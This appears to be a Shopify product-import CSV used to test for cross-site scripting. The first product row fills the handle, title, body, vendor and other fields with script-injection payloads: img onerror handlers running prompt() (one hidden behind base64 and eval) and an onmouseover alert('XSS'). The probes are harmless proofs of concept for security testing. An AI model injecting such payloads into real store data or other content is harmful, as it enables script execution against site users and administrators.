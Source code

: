 Handle,Title,Body (HTML),Vendor,Type,Tags,Published,Option1 Name,Option1 Value,Option2 Name,Option2 Value,Option3 Name,Option3 Value,Variant SKU,Variant Grams,Variant Inventory Tracker,Variant Inventory Qty,Variant Inventory Policy,Variant Fulfillment Service,Variant Price,Variant Compare At Price,Variant Requires Shipping,Variant Taxable,Variant Barcode,Image Src,Image Alt Text,Gift Card,Google Shopping / MPN,Google Shopping / Age Group,Google Shopping / Gender,Google Shopping / Google Product Category,SEO Title,SEO Description,Google Shopping / AdWords Grouping,Google Shopping / AdWords Labels,Google Shopping / Condition,Google Shopping / Custom Product,Google Shopping / Custom Label 0,Google Shopping / Custom Label 1,Google Shopping / Custom Label 2,Google Shopping / Custom Label 3,Google Shopping / Custom Label 4,Variant Image,Variant Weight Unit
<img src="a" onerror='eval(atob("cHJvbXB0KDEpOw=="))',><IMG SRC=x onerror=prompt(7)>,asd"/><img src="asD" onmouseover="alert('XSS');"//,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,TRUE,><IMG SRC=x onerror=prompt(7)>,><IMG SRC=x onerror=prompt(7)>,,,,,,3629,,1,deny,manual,25,,TRUE,TRUE,,http://cdn.shopify.com/s/images/shopify_shirt.png?e6948ca4d9028f9e734b8202cc472e3b89aae0f3,A black t-shirt with the shopify logo,FALSE,7X8ABC910,Adult,Unisex,Apparel & Accessories > Clothing,Our awesome T-shirt in 70 characters or less.,A great description of your products in 160 characters or less,T-shirts,"cotton, pre-shrunk",used,FALSE,,,,,,,
example-t-shirt,,,,,,,Title,Small,,,,,example-shirt-s,200,,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,
example-t-shirt,,,,,,,Title,Medium,,,,,example-shirt-m,200,shopify,1,deny,manual,19.99,24.99,TRUE,TRUE,,,,,,,,,,,,,,,,,,,,,

